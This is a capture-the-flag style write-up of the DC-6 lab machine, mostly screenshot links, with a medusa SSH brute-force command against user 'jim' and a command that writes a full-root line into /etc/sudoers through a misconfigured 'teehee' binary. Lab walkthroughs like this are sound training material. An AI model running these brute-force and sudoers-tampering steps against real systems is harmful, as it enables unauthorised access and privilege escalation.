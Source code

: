 # DC: 6 - Writeup
![](https://img.shields.io/badge/-linux_machine-e67e00?style=for-the-badge&logo=linux&logoColor=white)

![start](https://github.com/adminush/Labs-Writeups/assets/58698274/cfefc713-131b-430f-8c67-bf90718e37ff)

![scan](https://github.com/adminush/Labs-Writeups/assets/58698274/d29f0030-b942-4322-b9ab-81a5ecec3f99)

![web](https://github.com/adminush/Labs-Writeups/assets/58698274/0de9bb63-1b65-4f9d-b3f1-1652913b155a)

![payload](https://github.com/adminush/Labs-Writeups/assets/58698274/e47b4e33-215f-468e-84d6-c7b09d865393)

![brute-log](https://github.com/adminush/Labs-Writeups/assets/58698274/bd30378e-4c8e-4c0e-a7d2-e93e610861d9)

![panel](https://github.com/adminush/Labs-Writeups/assets/58698274/677508f2-f491-4441-8c9f-54856c4c31df)

![function](https://github.com/adminush/Labs-Writeups/assets/58698274/d010bbdf-9870-4a08-97be-6348940a83f6)

![payload2](https://github.com/adminush/Labs-Writeups/assets/58698274/317e7cbd-99aa-4eff-9ca7-5ae176f7db25)

![inject](https://github.com/adminush/Labs-Writeups/assets/58698274/399b110d-2fed-49d2-8868-ebf25e8eab6e)

![files](https://github.com/adminush/Labs-Writeups/assets/58698274/ab141a69-8b87-4858-8dc5-4457b8e65a2b)

![passwords](https://github.com/adminush/Labs-Writeups/assets/58698274/2bb52674-44cd-4766-863a-ebd362f9733e)

```
medusa -h 192.168.56.104 -u jim -P passwords.txt -M ssh -f -v 6
```
![brute-ssh](https://github.com/adminush/Labs-Writeups/assets/58698274/bd037268-5217-45e2-9cd1-133c685a7f8f)

![dir](https://github.com/adminush/Labs-Writeups/assets/58698274/1724271c-b540-4d09-b6d9-efe24668741a)

![elf](https://github.com/adminush/Labs-Writeups/assets/58698274/2cea8019-507e-46c7-beaa-7aa01b844b54)

![mail](https://github.com/adminush/Labs-Writeups/assets/58698274/276e6633-17d2-4377-8832-2f94fee71b34)

![new-user](https://github.com/adminush/Labs-Writeups/assets/58698274/9ae5c287-d550-4bc1-8476-ea37b137b4dc)

```
https://d00mfist1.gitbooks.io/ctf/content/privilege_escalation_-_linux.html

root    ALL=(ALL:ALL) ALL
```
![search-steps-for-escalation](https://github.com/adminush/Labs-Writeups/assets/58698274/b4b7ba65-d47e-4aca-806a-a068d53fe026)

```
echo "charles ALL=(ALL:ALL) ALL" | sudo /usr/bin/teehee /etc/sudoers
```
![escalation](https://github.com/adminush/Labs-Writeups/assets/58698274/762804b4-9762-40d7-913d-e3630a493d0a)




